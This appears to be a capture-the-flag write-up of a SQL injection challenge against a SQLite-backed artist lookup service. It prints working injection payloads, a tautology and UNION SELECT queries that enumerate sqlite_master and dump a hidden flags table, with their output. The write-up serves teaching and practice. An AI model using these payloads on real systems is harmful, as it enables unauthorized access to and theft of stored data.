 ```yaml
---
layout: post
title: "Squeal Writeup"
subtitle: "Medium Binary Exploitation Chall for TUCTF 2025"
description: "Medium Binary Exploitation Chall for TUCTF 2025"
author: "jxkxl"
header-style: text
tags:
  - CTF
  - Writeup
  - Pwn
  - Misc
  - NUIGCompSocCTF2025
---
```


Our server runs a light database that allows users to enter an artist's name to check if they are in our Billboard Top 10 table. I wonder if there's anything else interesting in that database...

## Tools Used

netcat

## Approach

### Initial Analysis

I first connected to the service via netcat, and was greeted with the following:

```
nc 140.203.18.3 10020
This script accepts the name of an artist and checks if they are currently in the Billboard Top 10 table in our database, e.g. Sabrina Carpenter
Enter an artist's name:
```

My first impression was this was obviously a database of some sort, and I was going to have to exploit something related to this fact. My first guess was that this could be some kind of SQL database, as the title of the challenge was "Squeal" and the description mentions a "light database". My guess is that this is a some kind of SQLite service running off this port. To see if this is true, and if it is exploitable, I did the ol' reliable:

```sql
' OR 1=1 --
```

and got this output:

```sql
1|Die With A Smile|Lady Gaga, Bruno Mars
2|BIRDS OF A FEATHER|Billie Eilish
3|Taste|Sabrina Carpenter
4|Who|Jimin
5|Espresso|Sabrina Carpenter
6|The Emptiness Machine|Linkin Park
7|Please Please Please|Sabrina Carpenter
8|Si Antes Te Hubiera Conocido|KAROL G
9|Good Luck, Babe!|Chappell Roan
10|Beautiful Things|Benson Boone
```

Nice! This showed that the database was in fact some kind of SQLite database, and vulnerable to SQL injection.

### Enumeration

Now that I knew SQL injection was possible, I wanted to see if there were more tables in the database, so I ran the following payload:

```sql
' UNION SELECT 1, name, 3 FROM sqlite_master WHERE type='table'; --
```

and it came back with the following:

```sql
1|flags|3
1|singles|3
```

I found that there was another table called `flags`, which was cool. Now I know which table I need to start looking at.

### Finding the Flag

Now that I knew there was a table called `flags`, I looked into `sqlite_master` to see how the table was structured. This would help me navigate to the correct column to extract. So I crafted the following query to call `sqlite_master` and use it to inspect the schema table:

```sql
' UNION SELECT 1, sql, 3 FROM sqlite_master WHERE type='table' AND name='flags'; --
```

This returned:

```sql
CREATE TABLE flags (
    secret VARCHAR(255) NOT NULL,
    PRIMARY KEY (secret)
)
```

So now I knew the column I needed to get the flag was going to be  in `secret`.

### Extracting the Flag

With that knowledge, I queried the final paylaod to the server that i would need:

```sql
' UNION SELECT 1, secret, 3 FROM flags; --
```

and got:

```sql
1|CompSoc{v4cc1nati0n}|3
```

Coolio.

## Solution

- **Flag:** `CompSoc{v4cc1nati0n}`
